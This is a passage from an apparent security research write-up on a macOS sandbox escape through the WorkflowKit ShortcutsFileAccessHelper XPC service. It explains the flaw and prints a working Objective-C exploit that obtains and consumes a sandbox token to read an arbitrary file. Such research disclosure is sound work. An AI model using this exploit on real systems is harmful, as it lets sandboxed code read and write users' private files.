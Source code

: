 The only XPC method is designed to grant the read and write permission of an arbitrary URL to the XPC client:

![image-20241020150711811](../res/2024-11-7-A-New-Era-of-macOS-Sandbox-Escapes/image-20241020150711811.png)

Internally, it calls the API `sandbox_extension_issue_file` to issue the file access token.

The arbitrary URL is specified from the sandboxed XPC client. 

### The exploit and demo

```
@protocol WFFileAccessHelperProtocol
- (void) extendAccessToURL:(NSURL *) url completion:(void (^) (FPSandboxingURLWrapper *, NSError *))arg2;
@end
typedef int (*PFN)(const char *);
void expoit_ShortcutsFileAccessHelper(NSString *target) {
    [[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/WorkflowKit.framework"]load];
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.WorkflowKit.ShortcutsFileAccessHelper"];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(WFFileAccessHelperProtocol)];
    [conn.remoteObjectInterface setClasses:[NSSet setWithArray:@[[NSError class], objc_getClass("FPSandboxingURLWrapper")]] forSelector:@selector(extendAccessToURL:completion:) argumentIndex:0 ofReply:1];
    [conn resume];
    
    [[conn remoteObjectProxy] extendAccessToURL:[NSURL fileURLWithPath:target] completion:^(FPSandboxingURLWrapper *fpWrapper, NSError *error) {
        NSString *sbxToken = [[NSString alloc] initWithData:[fpWrapper scope] encoding:NSUTF8StringEncoding];
        NSURL *targetURL = [fpWrapper url];
        
        void *h = dlopen("/usr/lib/system/libsystem_sandbox.dylib", 2);
        PFN sandbox_extension_consume = (PFN)dlsym(h, "sandbox_extension_consume");
        if (sandbox_extension_consume([sbxToken UTF8String]) == -1)
            NSLog(@"Fail to consume the sandbox token:%@", sbxToken);
        else {
            NSLog(@"Got the file R&W permission with sandbox token:%@", sbxToken);
            NSLog(@"Read the target content:%@", [NSData dataWithContentsOfURL:targetURL]);
        }
    }];
```